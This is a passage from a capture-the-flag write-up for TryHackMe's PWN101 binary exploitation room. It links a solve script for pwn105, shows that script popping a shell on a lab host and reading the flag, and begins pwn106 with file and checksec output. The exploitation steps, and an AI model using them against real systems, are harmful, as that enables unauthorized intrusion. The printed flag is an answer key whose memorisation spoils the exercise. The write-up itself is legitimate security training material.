 ```
total 28
drwxr-xr-x 2 mark mark  4096 Feb 15 20:47 .
drwxr-xr-x 7 mark mark  4096 Feb 14 22:33 ..
-rwxr-xr-x 1 mark mark 16584 Feb 14 22:41 pwn105.pwn105
$
```

Here's the solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn105.py)

Running it remotely works

```
└─$ python exploit.py REMOTE 10.10.146.62 9005
[+] Opening connection to 10.10.146.62 on port 9005: Done
[*] Switching to interactive mode
 
[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ LS -AL
$ ls -al
total 48
drwx------  2 pwn105 pwn105  4096 Feb  8  2022 .
drwxr-xr-x 12 root   root    4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn105 pwn105     9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn105 pwn105   220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn105 pwn105  3771 Apr  4  2018 .bashrc
-rw-r--r--  1 pwn105 pwn105   807 Apr  4  2018 .profile
-rwxrwxrwx  1 pwn105 pwn105    25 Jan 28  2022 flag.txt
-rwxrwxrwx  1 pwn105 pwn105 16584 Jan 28  2022 pwn105
-rwxrwxrwx  1 pwn105 pwn105  1140 Jan 28  2022 pwn105.c
$ cat flag.txt
THM{VerY_b4D_1n73G3rsss}
```

#### Challenge 6 = PWN106

#### Basic File Checks

```
└─$ file pwn106user.pwn106-user              
pwn106user.pwn106-user: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60a1dfa10c02bcc6d113cb752053893ac9e2f4f1, for GNU/Linux 3.2.0, not stripped

└─$ checksec pwn106user.pwn106-user                         
[*] '/home/mark/Desktop/B2B/THM/Pwn101/pwn106/pwn106user.pwn106-user'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
